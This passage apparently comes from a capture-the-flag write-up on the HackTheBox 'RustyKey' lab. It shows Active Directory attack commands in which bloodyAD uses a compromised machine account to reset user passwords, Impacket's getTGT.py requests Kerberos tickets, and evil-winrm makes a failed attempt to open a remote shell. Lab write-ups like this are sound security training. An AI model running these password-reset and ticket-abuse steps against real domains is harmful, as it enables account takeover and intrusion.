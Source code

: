 ```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' set password gg.anderson 'Password@123'
[+] Password changed successfully!
```

Now let's request **Ticket Granting Ticket** for `BB.MORGAN` and `GG.ANDERSON` user.

```bash
└─$ getTGT.py -dc-ip 10.129.66.206 'rustykey.htb/gg.anderson:Password@123'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

For `GG.ANDERSON` user, we got error due to `KDC_ERR_CLIENT_REVOKED` which means that the client credentials have been revoked. <br>
&rarr; We gonna move on to `BB.MORGAN` user.

```bash
└─$ getTGT.py -dc-ip 10.129.4.62 'rustykey.htb/bb.morgan:Password@123'    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
```

Then activate new ticket.

```bash
└─$ export KRB5CCNAME=bb.morgan.ccache
```

```powershell
└─$ evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb       
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information
No credentials found with supported encryption types (filename: bb.morgan.ccache)                                                                                                                                                           
                                                                                                                                                                                                                                            
                                        
Error: Exiting with code 1
```
